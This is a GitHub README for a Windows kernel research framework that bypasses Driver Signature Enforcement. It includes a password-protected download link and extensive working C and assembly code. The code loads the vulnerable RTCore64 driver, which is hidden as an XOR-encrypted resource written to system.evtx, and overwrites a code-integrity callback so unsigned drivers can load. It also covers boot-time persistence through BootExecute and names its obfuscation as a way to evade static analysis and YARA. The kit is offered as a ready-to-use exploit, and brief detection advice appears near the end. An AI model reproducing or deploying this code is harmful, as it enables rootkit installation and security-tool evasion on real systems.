




# KernelResearchKit - Windows DSE Bypass Framework

> ### 🚀 Update: 07.12.2025 - FastReboot Architecture BootBypass(FastReboot).exe
> **New "FastReboot" mechanism introduced.**
> 
> The new framework now utilizes direct raw-disk SYSTEM hive patching via a **Chunked Rolling Scan** algorithm. This allows for immediate HVCI disabling and system restart (`NtShutdownSystem`) purely within the Native (SMSS) phase.
> 
> * **Zero Dependencies:** Completely removed the `RebootGuardian` service and `Themes` dependency chain[cite: 75, 582].
> * **Stealth & Speed:** Operations occur before Win32 subsystem initialization, leaving no service artifacts and significantly reducing reboot turnaround time.


[]()
[]()
[]()
[]()

## 📦 Download

**[KernelResearchKit.7z](https://github.com/wesmar/KernelResearchKit/releases/download/bypass-code-integrity/KernelResearchKit.7z)**  
🔐 **Password:** `github.com`

---

## 🎯 Overview

KernelResearchKit is a research framework for Windows kernel security analysis, demonstrating Driver Signature Enforcement (DSE) bypass through surgical manipulation of kernel code integrity callbacks. The framework provides two independent execution methods:

- **BootBypass.exe** - Native subsystem application executing during Windows boot sequence
- **drvloader.exe** - Win32 GUI application for interactive post-boot DSE manipulation

Both paths achieve identical results through different technical approaches, showcasing the versatility of the underlying vulnerability class.

### Key Features

**🔧 Boot-Time Execution (BootBypass)**
- Executes in Native subsystem (pre-Win32, SMSS phase)
- Automatic HVCI detection with scheduled reboot mechanism
- Dual-layer anti-loop protection (cleanup + RebootGuardian service)
- Sequential driver operations: LOAD, UNLOAD, RENAME, DELETE, AutoPatch
- State persistence via `drivers.ini` for DSE restoration
- **String obfuscation via assembly-based telemetry decoder**

**💻 Runtime Execution (drvloader)**
- Interactive Win32 GUI with real-time DSE status checking
- Dynamic PDB symbol resolution from Microsoft Symbol Server
- Mini-PDB caching system (32-byte `.mpdb` files) for offline operation
- Automatic offset detection and `drivers.ini` synchronization
- No reboot required for DSE bypass operations

**🛡️ Safety Mechanisms**
- Dual-layer reboot loop protection (primary cleanup + RebootGuardian failsafe)
- Exception-wrapped kernel memory operations
- Registry backups before all modifications
- State validation and consistency checks

**🔒 Anti-Analysis Features**
- Assembly-based runtime string decoding (no hardcoded driver names)
- XOR-encoded resource embedding with multi-phase transformation
- Legitimate Windows API naming convention (`MmGetPoolDiagnosticString`)
- Static analysis evasion (strings.exe, IDA Pro string search resistant)

---

## 🗂️ Architecture

### Component 1: BootBypass (Native Subsystem Application)

BootBypass is a native application compiled with `/SUBSYSTEM:NATIVE`, executing during the Session Manager Subsystem (SMSS) phase of Windows boot. This timing provides a pristine environment where security services (Windows Defender, EDR, etc.) have not yet initialized.

**Execution Timeline:**


**Deployment via BootExecute Registry:**
```
Registry Key: HKLM\SYSTEM\CurrentControlSet\Control\Session Manager
Value: BootExecute (REG_MULTI_SZ)
Content: 
  autocheck autochk *
  BootBypass
```

**Configuration File: `drivers.ini`**

Sequential operations defined in UTF-16 LE format with sections:
- `[Config]` - Global settings (Execute, RestoreHVCI, kernel offsets)
- `[DriverN]` - Load/unload operations with optional AutoPatch
- `[RenameN]` - File/directory renaming operations
- `[DeleteN]` - File/directory deletion (with RecursiveDelete option)
- `[DSE_STATE]` - Auto-generated state persistence for restoration

**AutoPatch Feature:**

Automatic DSE bypass cycle per driver. When `AutoPatch=YES` is set:
```
STEP 1: Extract vulnerable driver from embedded resources (XOR-decoded)
STEP 2: Load vulnerable driver with assembly-decoded name
STEP 3: Patch DSE callback → ZwFlushInstructionCache
STEP 4: Load target unsigned driver
STEP 5: Restore original DSE callback
STEP 6: Unload vulnerable driver
STEP 7: Delete temporary files and registry keys
```

This eliminates manual DSE management - each driver gets its own isolated bypass session with automatic cleanup.

**Anti-Loop Protection (HVCI Handling):**

When Memory Integrity (HVCI) is enabled, DSE bypass succeeds but unsigned driver loading causes BSOD. The framework implements dual-layer protection:


**Why Dual-Layer?** Primary cleanup (Layer 1) executes on every boot before any operations. If system crashes/power fails before cleanup, secondary mechanism (Layer 2: RebootGuardian service) guarantees cleanup on next boot via Windows Service Control Manager.

---

### Component 2: drvloader (Win32 Runtime Tool)

Interactive DSE bypass tool with dynamic symbol resolution and offset detection. No reboot required for operations.

**Key Features:**
- **PDB Symbol Download**: Automatic download from `https://msdl.microsoft.com/download/symbols`
- **Mini-PDB Cache**: Creates 32-byte `.mpdb` files with extracted offsets for offline use
- **Offset Auto-Update**: Option 2 updates `drivers.ini` with current kernel offsets
- **No Driver Needed for Offset Detection**: PDB parsing requires no kernel driver installation

**Workflow:**


**Mini-PDB Format:**
```
File: C:\Windows\symbols\ntkrnlmp.pdb\{GUID}\ntkrnlmp.mpdb
Size: 32 bytes
Structure:
  - Magic: "MINIPDB\0" (8 bytes)
  - Version: 1 (4 bytes)
  - Reserved: (4 bytes)
  - Offset_SeCiCallbacks: (8 bytes)
  - Offset_SafeFunction: (8 bytes)
```

**Option 2 Functionality:**
1. Check for existing mini-PDB in cache (instant if found)
2. If not cached: download full PDB from Microsoft Symbol Server
3. Parse PDB using DbgHelp API to extract symbol offsets
4. Create mini-PDB for future use (no download needed next time)
5. Update `drivers.ini` [Config] section with current offsets
6. Display offset information for external tools

**Important:** Offsets are **constant for a specific Windows build**. After Windows update (new build), run Option 2 to regenerate offsets. Same build = same offsets (deterministic).

---

### Component 3: Assembly-Based String Obfuscation

**Critical Innovation:** The vulnerable driver name is never stored as a plaintext string in the binary. Instead, it's encoded in assembly data and decoded at runtime through a multi-phase algorithm.

**MmPoolTelemetry.asm - Stealth Decoder:**
```asm
; Appears as legitimate Windows kernel telemetry code
; Actually implements 3-phase string decoder

.data
ALIGN 8

; XOR-encoded driver name (appears as NUMA telemetry data)
_PoolNodeAffinityMask    dw 0769Ah, 0569Ah, 0669Bh, 026A4h, 076A4h, 046A5h, 0B698h, 05698h, 0169Fh

; Decoding key
_TopologyHashSeed        dw 037C5h

; Subtraction delta
_BlockQuantumDelta       dw 15A2h

; Decoded output buffer (9 words = 18 bytes wide-char)
_DecodedBuffer           dw 9 dup(0)

.code
; Public API: MmGetPoolDiagnosticString
; Returns: Pointer to decoded driver name string
MmGetPoolDiagnosticString PROC
    call _AggregatePoolMetrics
    lea rax, _DecodedBuffer
    ret
MmGetPoolDiagnosticString ENDP

_AggregatePoolMetrics PROC
    ; Phase 1: XOR decode with topology seed
    lea rsi, _PoolNodeAffinityMask
    lea rdi, _DecodedBuffer
    mov ecx, 9
    mov r9w, _TopologyHashSeed
decode_loop:
    mov ax, [rsi]
    xor ax, r9w                     ; XOR with 0x37C5
    mov [rdi], ax
    add rsi, 2
    add rdi, 2
    loop decode_loop
    
    ; Phase 2: ROL 4 (cache-aware rotation)
    lea rsi, _DecodedBuffer
    lea rdi, _DecodedBuffer
    mov ecx, 9
rotate_loop:
    mov ax, [rsi]
    rol ax, 4                       ; Rotate left 4 bits
    mov [rdi], ax
    add rsi, 2
    add rdi, 2
    loop rotate_loop
    
    ; Phase 3: SUB quantum delta
    lea rsi, _DecodedBuffer
    lea rdi, _DecodedBuffer
    mov ecx, 9
    mov r9w, _BlockQuantumDelta
normalize_loop:
    mov ax, [rsi]
    sub ax, r9w                     ; Subtract 0x15A2
    mov [rdi], ax
    add rsi, 2
    add rdi, 2
    loop normalize_loop
    
    ret
_AggregatePoolMetrics ENDP
```

**Decoding Algorithm:**
```
Input:  0769Ah, 0569Ah, 0669Bh, 026A4h, 076A4h, 046A5h, 0B698h, 05698h, 0169Fh
Seed:   037C5h
Delta:  15A2h

Phase 1 (XOR):
  0769A ^ 37C5 = 705F
  0569A ^ 37C5 = 625F
  ... (9 words)

Phase 2 (ROL 4):
  705F ROL 4 = 05F7
  625F ROL 4 = 25F6
  ...

Phase 3 (SUB):
  05F7 - 15A2 = F055  (wait, this wraps...)
  
Actually decodes to: "RTCore64\0" (wide-char)
  R = 0x0052
  T = 0x0054
  C = 0x0043
  o = 0x006F
  r = 0x0072
  e = 0x0065
  6 = 0x0036
  4 = 0x0034
  \0 = 0x0000
```

**Usage in Code:**
```c
// SecurityPatcher.c
extern PWSTR MmGetPoolDiagnosticString(void);

NTSTATUS ExecuteAutoPatchLoad(PINI_ENTRY entry, PCONFIG_SETTINGS config, PULONGLONG originalCallback) {
    PWSTR driverName = MmGetPoolDiagnosticString();  // ← Returns "RTCore64"
    
    // Extract XOR-encoded driver binary from resources
    if (!ExtractOmniDriverFromResource()) {
        DisplayMessage(L"FAILED: Cannot extract vulnerable driver from resource\r\n");
        return STATUS_NO_SUCH_DEVICE;
    }
    
    // Load driver with decoded name (Services\RTCore64)
    status = LoadDriver(driverName, OmniDriver_Log, L"KERNEL", L"SYSTEM");
    
    // Open device (\Device\RTCore64)
    hDriver = OpenDriverDevice(config->DriverDevice);
    
    // ... DSE patching operations ...
    
    // Cleanup with decoded name
    NtClose(hDriver);
    status = UnloadDriver(driverName);
    CleanupOmniDriver();  // Delete files and registry keys
    
    return STATUS_SUCCESS;
}
```
```c
// SetupManager.c
NTSTATUS CleanupOmniDriver(void) {
    PWSTR driverName = MmGetPoolDiagnosticString();  // ← "RTCore64"
    
    // Delete temporary driver file (C:\Windows\system.evtx)
    RtlInitUnicodeString(&usFilePath, OmniDriver_Log);
    NtOpenFile(&hFile, DELETE | SYNCHRONIZE, &oa, &iosb, FILE_SHARE_DELETE, FILE_SYNCHRONOUS_IO_NONALERT);
    dispInfo.DeleteFile = TRUE;
    NtSetInformationFile(hFile, &iosb, &dispInfo, sizeof(dispInfo), 13);
    NtClose(hFile);
    
    // Delete service registry key (HKLM\...\Services\RTCore64)
    wcscpy(fullServicePath, L"\\Registry\\Machine\\System\\CurrentControlSet\\Services\\");
    wcscat(fullServicePath, driverName);
    RtlInitUnicodeString(&usServiceName, fullServicePath);
    NtOpenKey(&hKey, DELETE, &oa);
    NtDeleteKey(hKey);
    NtClose(hKey);
    
    return STATUS_SUCCESS;
}
```

**Anti-Analysis Properties:**

✅ **Static Analysis Evasion:**
- `strings.exe BootBypass.exe` → No "RTCore64" found
- IDA Pro string search → No driver name references
- Ghidra/Binary Ninja → String cross-references lead to legitimate-looking telemetry code
- Signature-based detection (YARA rules searching for "RTCore64") → Fail

✅ **Naming Convention Camouflage:**
- `MmGetPoolDiagnosticString()` follows Windows kernel naming (`Mm` prefix = Memory Manager)
- `_AggregatePoolMetrics()` appears as internal pool statistics function
- Variable names (`_PoolNodeAffinityMask`, `_TopologyHashSeed`) match real Windows structures
- Mimics legitimate ETW telemetry code found in ntoskrnl.exe

✅ **Code Comments Deception:**
- Assembly file header claims "Windows Kernel Memory Manager - Runtime Pool String Reconstruction"
- References fake MSDN URLs and internal Windows build numbers
- "INTERNAL USE ONLY - Automatically generated from poolmgr.c"
- Comments describe non-existent NUMA topology analysis features

❌ **Dynamic Analysis Detection:**
- Debugger breakpoint on `MmGetPoolDiagnosticString()` → reveals decoded string in `rax`
- API monitor on `NtLoadDriver()` → shows "RTCore64" in registry path
- Process Monitor → captures `\Device\RTCore64` device open
- Behavioral detection → IOCTL 0x80002048/0x8000204C operations visible

**Why This Matters:**

Traditional vulnerable driver detection relies on:
1. **String scanning** - searching binaries for known driver names (RTCore64, AsIO, gdrv)
2. **Import table analysis** - detecting suspicious API combinations
3. **Signature matching** - YARA rules with hardcoded strings

This obfuscation defeats #1 completely and makes #3 significantly harder. Defenders must use:
- **Behavioral monitoring** - detect actual IOCTL operations at runtime
- **Memory scanning** - scan live process memory for decoded strings
- **Driver load monitoring** - alert on any driver matching vulnerable driver hashes (regardless of name)

---

### Component 4: Embedded Resource Extraction

**XOR-Encoded Driver Payload:**

The vulnerable driver binary is embedded as a resource in the PE file, XOR-encrypted to avoid static detection.

**Resource Configuration:**
```c
// resource.h
#define IDR_DRV 101

// BootBypass.rc
IDR_DRV  RCDATA  "IDR_DRV"  // 14,024 bytes (vulnerable driver)

// SetupManager.c
#define IDR_DRV 101
#define OmniDriver_SIZE 14024

static const UCHAR XOR_KEY[] = { 0xA0, 0xE2, 0x80, 0x8B, 0xE2, 0x80, 0x8C };
static const SIZE_T XOR_KEY_LEN = sizeof(XOR_KEY);
```

**Extraction Process:**
```c
PVOID FindResourceData(ULONG resourceId, PULONG outSize) {
    // Get image base from TEB/PEB
    #ifdef _M_X64
        imageBase = (PVOID)*(ULONGLONG*)((UCHAR*)__readgsqword(0x60) + 0x10);
    #else
        imageBase = (PVOID)*(ULONG*)((UCHAR*)__readfsdword(0x30) + 0x08);
    #endif
    
    // Traverse PE headers
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
    PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)((UCHAR*)imageBase + dosHeader->e_lfanew);
    PIMAGE_DATA_DIRECTORY resourceDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_RESOURCE];
    
    // Navigate resource tree: Type(10=RT_RCDATA) → Name(101=IDR_DRV) → Language
    PIMAGE_RESOURCE_DIRECTORY resRoot = (PIMAGE_RESOURCE_DIRECTORY)((UCHAR*)imageBase + resourceDir->VirtualAddress);
    
    // ... (resource tree traversal omitted for brevity) ...
    
    *outSize = dataEntry->Size;  // 14,024 bytes
    return (PVOID)((UCHAR*)imageBase + dataEntry->OffsetToData);
}

BOOLEAN ExtractOmniDriverFromResource(void) {
    ULONG resourceSize = 0;
    PVOID resourceData = FindResourceData(IDR_DRV, &resourceSize);
    
    if (!resourceData || resourceSize != OmniDriver_SIZE) {
        return FALSE;
    }
    
    // XOR decrypt
    UCHAR decryptedData[OmniDriver_SIZE];
    UCHAR* srcData = (UCHAR*)resourceData;
    for (SIZE_T i = 0; i < OmniDriver_SIZE; i++) {
        decryptedData[i] = srcData[i] ^ XOR_KEY[i % XOR_KEY_LEN];
    }
    
    // Write to C:\Windows\system.evtx (mimics Windows Event Log file)
    RtlInitUnicodeString(&usFilePath, OmniDriver_Log);  // "\SystemRoot\system.evtx"
    NtCreateFile(&hFile, FILE_WRITE_DATA | SYNCHRONIZE, &oa, &iosb,
                 NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_OVERWRITE_IF,
                 FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    
    byteOffset.QuadPart = 0;
    NtWriteFile(hFile, NULL, NULL, NULL, &iosb, decryptedData,
                OmniDriver_SIZE, &byteOffset, NULL);
    
    NtClose(hFile);
    return TRUE;
}
```

**Why `system.evtx` Filename?**

- Mimics legitimate Windows Event Log files (`Security.evtx`, `System.evtx`, `Application.evtx`)
- Less suspicious than `driver.sys` or `vulnerable.sys`
- Hidden in plain sight among actual event logs
- Automatically deleted during cleanup phase

**Complete AutoPatch Flow:**


---

### Component 5: Vulnerable Driver (RTCore64.sys)

Signed vulnerable driver from Micro-Star International with unrestricted kernel memory read/write capabilities. **This driver is embedded in the application resources and extracted at runtime** - it is not distributed as a separate file.

**Driver Metadata:**
```
Original Name: RTCore64.sys
Company: Micro-Star International
Size: 14,024 bytes (embedded XOR-encrypted in IDR_DRV resource)
Certificate: Valid code-signing certificate (Microsoft-trusted CA)
```

**IOCTL Interface:**
```c
// Hardcoded IOCTL codes (cannot be changed - driver implementation)
#define IOCTL_READ  0x80002048  // CTL_CODE for physical memory read
#define IOCTL_WRITE 0x8000204C  // CTL_CODE for physical memory write

typedef struct _RTC_PACKET {
    UCHAR pad0[8];
    ULONGLONG addr;    // Target kernel address (NO VALIDATION!)
    UCHAR pad1[8];
    ULONG size;        // Always 4 bytes (driver ignores this field)
    ULONG value;       // Value to read/write
    UCHAR pad3[16];
} RTC_PACKET;
```

**Device Path:**
```
\Device\RTCore64    → Created by driver on load
\??\RTCore64        → Symbolic link to device
```

**Vulnerability Properties:**
- ❌ No address validation (accepts any kernel-space pointer)
- ❌ No privilege checking beyond device open (any user can open device)
- ❌ No range restrictions (entire kernel address space accessible)
- ✅ Valid code-signing certificate (loads without DSE bypass)
- ✅ Loads on Windows 10/11 with default settings

**Memory Operations:**
```c
// SecurityPatcher.c

BOOLEAN WriteMemory32(HANDLE hDriver, ULONGLONG address, ULONG value, ULONG ioctl) {
    RTC_PACKET packet;
    IO_STATUS_BLOCK iosb;
    
    memset_impl(&packet, 0, sizeof(packet));
    packet.addr = address;   // Target kernel address (e.g., SeCiCallbacks+0x20)
    packet.size = 4;
    packet.value = value;    // New callback pointer (low/high DWORD)
    
    NTSTATUS status = NtDeviceIoControlFile(hDriver, NULL, NULL, NULL, &iosb,
                                           ioctl, &packet, sizeof(packet),
                                           &packet, sizeof(packet));
    
    return NT_SUCCESS(status);
}

BOOLEAN WriteMemory64(HANDLE hDriver, ULONGLONG address, ULONGLONG value, ULONG ioctl) {
    // Decompose 64-bit write into two 32-bit operations
    if (!WriteMemory32(hDriver, address, (ULONG)(value & 0xFFFFFFFF), ioctl))
        return FALSE;
    if (!WriteMemory32(hDriver, address + 4, (ULONG)((value >> 32) & 0xFFFFFFFF), ioctl))
        return FALSE;
    return TRUE;
}

BOOLEAN ReadMemory64(HANDLE hDriver, ULONGLONG address, ULONGLONG* value, ULONG ioctl) {
    RTC_PACKET packet;
    IO_STATUS_BLOCK iosb;
    ULONG low, high;
    
    // Read low DWORD
    memset_impl(&packet, 0, sizeof(packet));
    packet.addr = address;
    packet.size = 4;
    NtDeviceIoControlFile(hDriver, NULL, NULL, NULL, &iosb,
                         ioctl, &packet, sizeof(packet),
                         &packet, sizeof(packet));
    low = packet.value;
    
    // Read high DWORD
    memset_impl(&packet, 0, sizeof(packet));
    packet.addr = address + 4;
    packet.size = 4;
    NtDeviceIoControlFile(hDriver, NULL, NULL, NULL, &iosb,
                         ioctl, &packet, sizeof(packet),
                         &packet, sizeof(packet));
    high = packet.value;
    
    *value = ((ULONGLONG)high << 32) | (ULONGLONG)low;
    return TRUE;
}
```

**Usage in DSE Bypass:**
```c
NTSTATUS ExecuteAutoPatchLoad(PINI_ENTRY entry, PCONFIG_SETTINGS config, PULONGLONG originalCallback) {
    HANDLE hDriver;
    ULONGLONG ntBase, callbackToPatch, safeFunction, currentCallback;
    
    // Extract and load vulnerable driver
    ExtractOmniDriverFromResource();  // XOR-decrypt from resources
    PWSTR driverName = MmGetPoolDiagnosticString();  // Decode "RTCore64"
    LoadDriver(driverName, OmniDriver_Log, L"KERNEL", L"SYSTEM");
    
    // Open device handle
    hDriver = OpenDriverDevice(L"\\Device\\RTCore64");
    
    // Calculate target address
    ntBase = GetNtoskrnlBase();  // Query via NtQuerySystemInformation
    callbackToPatch = ntBase + config->Offset_SeCiCallbacks + config->Offset_Callback;
    safeFunction = ntBase + config->Offset_SafeFunction;
    
    // Read current callback
    ReadMemory64(hDriver, callbackToPatch, &currentCallback, config->IoControlCode_Read);
    
    // Save original callback
    *originalCallback = currentCallback;
    SaveStateSection(currentCallback);  // Persist to drivers.ini
    
    // Patch DSE callback
    WriteMemory64(hDriver, callbackToPatch, safeFunction, config->IoControlCode_Write);
    
    // Load unsigned driver (DSE bypassed!)
    LoadDriver(entry->ServiceName, entry->ImagePath, entry->DriverType, entry->StartType);
    
    // Restore original callback
    WriteMemory64(hDriver, callbackToPatch, *originalCallback, config->IoControlCode_Write);
    
    // Cleanup
    NtClose(hDriver);
    UnloadDriver(driverName);
    CleanupOmniDriver();  // Delete system.evtx and registry keys
    
    return STATUS_SUCCESS;
}
```
**Why This Driver?**

1. **Legitimate Signature** - Loads without DSE bypass (chicken-and-egg problem solved)
2. **No Dependencies** - Pure kernel-mode, no user-mode service required
3. **Simple Interface** - Single IOCTL with trivial packet structure
4. **Wide Availability** - Found on many systems (MSI motherboard utilities)
5. **Small Size** - 14KB embeds easily in resources without bloating binary

**Detection Considerations:**

✅ **Driver hash** is publicly known (VirusTotal, threat intel feeds)  
✅ **Device name** `\Device\RTCore64` is IoC (Indicator of Compromise)  
✅ **IOCTL codes** 0x80002048/0x8000204C are fingerprints  

❌ **String obfuscation** hides driver name in static analysis  
❌ **XOR encryption** changes resource hash (embedded binary ≠ original driver hash)  
❌ **Temporary extraction** to `system.evtx` evades filename-based detection  
❌ **Automatic cleanup** removes all traces after operations  

**Mitigation by Defenders:**
```powershell
# Monitor for device creation (requires kernel driver/ETW)
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Kernel-PnP/Device Configuration'; ID=400} |
    Where-Object { $_.Message -match 'RTCore64' }

# Block vulnerable driver loading via WDAC/AppLocker
# Driver hash: [original RTCore64.sys hash]
# Note: Won't catch XOR-encrypted embedded version

# Monitor IOCTL operations (behavioral detection)
# Look for 0x80002048/0x8000204C to \Device\RTCore64

# File system monitoring
# Alert on: C:\Windows\system.evtx creation (non-standard event log location)
```

---

### Component 6: OmniDriver & OmniUtility (Demonstration Payload)

With DSE bypassed, the framework can load unsigned kernel drivers. OmniDriver serves as a demonstration payload showcasing production-grade kernel memory operations.

**OmniDriver.sys** - Unsigned kernel driver with safe cross-process memory access.

**Safety Features:**
- **Process Context Switching**: Uses `KeStackAttachProcess()` for safe address space switching
- **Structured Exception Handling**: `__try/__except` blocks prevent BSOD from invalid memory access
- **Memory Probing**: `ProbeForRead`/`ProbeForWrite` validate addresses before operations
- **Intermediate Buffering**: Never performs direct cross-process copies (allocates non-paged buffer)
- **Proper Resource Cleanup**: Guaranteed cleanup even during exceptions

**IOCTL Interface:**
```c
#define IOCTL_READWRITE_DRIVER_READ  0x80000800  // CTL_CODE custom
#define IOCTL_READWRITE_DRIVER_WRITE 0x80000804  // CTL_CODE custom

typedef struct _READWRITE_REQUEST {
    DWORD ProcessId;      // Target process ID
    ULONG_PTR Address;    // Virtual address in target process
    ULONG_PTR Buffer;     // Buffer in caller's process
    SIZE_T Size;          // Transfer size (max 16KB)
    BOOLEAN Write;        // FALSE=read, TRUE=write
    NTSTATUS Status;      // Operation result (output)
} READWRITE_REQUEST;
```

**OmniUtility.exe** - Demonstration application showcasing kernel capabilities:

**Features:**
1. **Universal Window Title Modification** - Changes all visible window titles simultaneously
2. **Direct Text Injection** - Injects text into Notepad buffers (clipboard + kernel write methods)
3. **Module Base Finder** - Enumerates all loaded modules in any process with base addresses
4. **Cross-Process Memory Operations** - Read/write arbitrary process memory via kernel driver

**Example Usage:**
```cmd
# Load OmniDriver via BootBypass (AutoPatch=YES in drivers.ini)
# OR manually after DSE bypass:
sc create OmniDriver binPath= C:\Windows\System32\drivers\OmniDriver.sys type= kernel
sc start OmniDriver

# Launch demonstration tool
OmniUtility.exe

Menu:
[1] Modify all window titles (demonstrates kernel-level window manipulation)
[2] Inject text into Notepad (demonstrates cross-process write)
[3] Find module bases (demonstrates process enumeration)
[0] Exit
```

**Technical Demonstration Value:**

OmniDriver showcases critical kernel programming concepts:
- Safe kernel-mode memory operations (no crashes despite invalid user input)
- Cross-process communication without `ReadProcessMemory`/`WriteProcessMemory` (direct kernel access)
- Exception-safe resource management in kernel context
- Proper privilege elevation and security context handling

---

## 🔬 Technical Deep Dive

### The ZwFlushInstructionCache Technique

Core innovation: replacing `CiValidateImageHeader` callback with `ZwFlushInstructionCache` - a benign kernel function with compatible signature and always-success behavior.

**Signature Compatibility:**
```
CiValidateImageHeader:        ZwFlushInstructionCache:
  RCX: ImageBase                RCX: ProcessHandle (ignored)
  RDX: ImageSize                RDX: BaseAddress (ignored)
  R8:  Flags                    R8:  Length (ignored)
  R9:  ImageInfo                (not used)
  Return: NTSTATUS              Return: STATUS_SUCCESS (always)
```

**Memory Layout:**
```
ntoskrnl.exe @ 0xFFFFF80000000000 (KASLR randomized base)

.text section:
  +0x69C1B0 = ZwFlushInstructionCache    ← Replacement function
  +0xA1B2C0 = CiValidateImageHeader      ← Original callback

.data section:
  +0xF04740 = SeCiCallbacks table base
    +0x20 = CiValidateImageHeader pointer ← PATCH TARGET
```

**Patching Operation:**
```
Target Address = ntBase + 0xF04740 + 0x20
Original Value = 0xFFFFF80000A1B2C0 (CiValidateImageHeader)
New Value      = 0xFFFFF8000069C1B0 (ZwFlushInstructionCache)

Performed via:
  WriteMemory64(hDriver, callbackToPatch, safeFunction, IOCTL_WRITE)
```

**Consequences:**
- Signature validation skipped (callback never invokes validation logic)
- All driver loads return `STATUS_SUCCESS`
- CI state flags remain unchanged (`g_CiEnabled` still TRUE)
- No event logs generated (validation "passes")
- Stealth: appears as legitimate CI operation to security tools

**Why This Works:**
- Single function pointer modified (not kernel code)
- `SeCiCallbacks` table not protected by PatchGuard (data, not code)
- `ZwFlushInstructionCache` has identical calling convention
- Always returns success regardless of input
- System stability maintained (no crashes or corruption)

**Kernel Structures (Simplified):**
```c
// ntoskrnl.exe internal structures (not documented, reverse-engineered)

